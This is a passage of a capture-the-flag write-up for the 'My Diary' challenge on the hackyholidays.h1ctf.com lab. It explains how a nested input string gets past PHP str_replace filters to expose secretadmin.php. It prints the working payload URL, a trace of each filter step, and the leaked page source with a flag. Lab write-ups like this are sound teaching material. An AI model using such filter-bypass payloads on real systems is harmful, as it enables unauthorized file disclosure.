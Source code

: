 ```php
        //redirect to home
        header("Location: /my-diary/?template=entries.html");
        exit();
    }
}else{
    //redirect to home
    header("Location: /my-diary/?template=entries.html");
    exit();
}
```

Awesome, we can see how the pages get rendered. The code gets the name of the file to render as the `template` query parameter. It then strips out any characters that aren't a letter, number, or period. Then it removes occurrences of `admin.php`. Then it removes occurences of `secretadmin.php`. 

We can tell from the comments that `secretadmin.php` is the file we need to access. This will be a bit tricky though considering the text substitutions being made. To make this easier, I copy pasted the critical section of the code into a local editor until I could find a way around this. The key insight is realizing that you can structure your input such that after applying the substitutions you still have the keywords you need. For example, "admin`admin.php`.php" run through the first filter gives you `admin.php` as an output.

With some fiddling, I found this string which works: `secretadmin.phpadminsecretadmin.admin.phpphp.php`. Let's see why this works line by line:

```php
<?php
$page = 'secretadmin.phpadminsecretadmin.admin.phpphp.php';

$page = preg_replace('/([^a-zA-Z0-9.])/','',$page);
// $page = 'secretadmin.phpadminsecretadmin.admin.phpphp.php'
$page = str_replace("admin.php","",$page);
// $page = 'secretadminsecretadmin.php.php'
$page = str_replace("secretadmin.php","",$page);
// $page = 'secretadmin.php'
```

Querying `https://hackyholidays.h1ctf.com/my-diary/?template=secretadmin.phpadminsecretadmin.admin.phpphp.php` gives us:
```html
<?php
if( $_SERVER["REMOTE_ADDR"] == '127.0.0.1' ){
?>
<!DOCTYPE html>
<html lang="en">
<head>
    <title>My Diary</title>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css" integrity="sha384-BVYiiSIFeK1dGmJRAkycuHAHRg32OmUcww7on3RYdg4Va+PmSTsz/K68vbdEjh4u" crossorigin="anonymous">
</head>
<body>
<div class="container">
    <div class="text-center"><img src="/assets/images/grinch-networks.png" alt="Grinch Networks"></div>
    <h1 class="text-center">My Diary</h1>
    <h4 class="text-center">flag{18b130a7-3a79-4c70-b73b-7f23fa95d395}</h4>
    <div class="row" style="margin-top:30px">
        <div class="col-md-6 col-md-offset-3">
            <div class="panel panel-default">
                <div class="panel-heading">Pending Entries</div>
                <div class="panel-body" style="padding:0">
                    <table class="table" style="margin:0">
```